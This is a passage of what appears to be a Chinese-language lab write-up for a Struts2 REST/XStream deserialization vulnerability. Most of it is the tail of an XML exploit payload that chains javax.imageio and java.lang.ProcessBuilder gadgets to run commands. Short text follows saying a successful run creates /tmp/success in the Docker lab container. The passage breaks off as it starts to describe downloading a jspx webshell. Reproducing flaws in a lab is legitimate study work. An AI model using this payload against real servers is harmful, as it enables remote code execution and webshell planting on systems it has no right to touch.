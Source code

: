 ```plain
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```



以上数据包成功执行的话，会在docker容器内创建文件`/tmp/success`，执行`docker-compose exec struts2 ls /tmp/`即可看到。



此外，我们还可以下载一个jspx的webshell：


